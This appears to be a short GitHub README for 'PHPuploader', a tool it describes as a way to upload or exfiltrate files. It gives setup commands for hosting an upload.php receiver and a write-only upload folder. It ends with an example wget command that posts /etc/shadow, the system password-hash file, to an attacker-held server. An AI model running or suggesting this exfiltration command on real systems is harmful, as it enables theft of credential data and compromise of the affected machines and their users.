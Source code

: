 # PHPuploader
 Upload/exfiltrate files.

# Usage
Host "upload.php" on the server.
```
php -S 127.0.0.1:8080 -t .
```
Create "upload" directory and configure.
```
mkdir upload
```
Set (only write) permissions to folder.
```
cd upload && umask 555
```
Additionally, you can change ownership of the folder.
```
useradd dummy && chown dummy upload
```
Example method for posting file to server.
```
wget --post-file=/etc/shadow <server_ip>/upload.php?name=shadow
```






 